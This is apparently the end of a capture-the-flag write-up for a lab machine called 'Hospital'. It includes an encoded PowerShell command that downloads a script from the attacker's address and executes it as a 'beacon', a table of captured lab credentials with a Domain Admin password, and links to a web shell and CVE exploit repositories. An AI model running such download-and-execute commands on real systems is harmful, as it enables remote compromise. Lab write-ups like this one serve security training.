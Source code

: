 and boomm!!!

![alt text](../assets/images/hospital13.png)

and i will load my beacon here

```bash
powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=
```

and we got it.

![alt text](../assets/images/hospital14.png)

## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| drwilliams | qwe123!@# | roundcube | etc/shadow | phishing |
| Administrator | Th3B3stH0sp1t4l9786! | everywhere | dump | DA |

## Tools

https://github.com/epinna/weevely3

https://github.com/synacktiv/CVE-2023-35001

https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
